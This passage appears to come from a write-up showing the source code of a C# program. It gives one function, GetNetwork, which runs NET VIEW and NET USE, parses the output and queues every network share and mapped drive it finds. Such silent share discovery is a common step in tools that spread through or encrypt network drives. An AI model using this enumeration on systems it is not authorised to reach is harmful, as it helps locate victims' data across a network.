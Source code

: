 and `GetNetwork`:     

```csharp
private static void GetNetwork()
{
    List&lt;string&gt; Network = new List&lt;string&gt;();
    try
    {
        string result = DoCMD("NET VIEW");
        string[] resultList = result.Replace("\r\n", "\n").Split('\n');
        foreach (string line in resultList)
        {
            if (line.Contains(@"\\"))
            {
                Network.Add(line.Split(' ')[0]);
            }
        }
    }
    catch (Exception) {}
    try
    {
        string result = DoCMD("NET USE").Replace("\r\n", "\n");
        string[] resultList = result.Split('\n');
        foreach (string line in resultList)
        {
            string drive = new Regex(@"\s(\S{2})\s").Match(line).Groups[1].Value;
            if(!Drives.Contains(drive+"\\") &amp;&amp; drive.Contains(":")) Drives.Enqueue(drive + "\\");
            string NetResource = new Regex(@"(\\\\[^\\\s]*)", RegexOptions.IgnoreCase).Match(line).Groups[1].Value;
            if (NetResource != "")
            {
                if(!Network.Contains(NetResource)) Network.Add(NetResource);
            }
        }
    }
    catch(Exception) {}
    foreach (string device in Network)
    {
        try
        {
            string result = DoCMD("NET VIEW " + device);
            string[] resultList = result.Replace("\r\n", "\n").Split('\n');
            foreach (string line in resultList)
            {
                if (line.Contains("Disk"))
                {
                    string folder = BackspacesCleaner(line);
                    Drives.Enqueue(device + "\\" + folder);
                }
            }
        }
        catch(Exception) {} 
    }

}
```
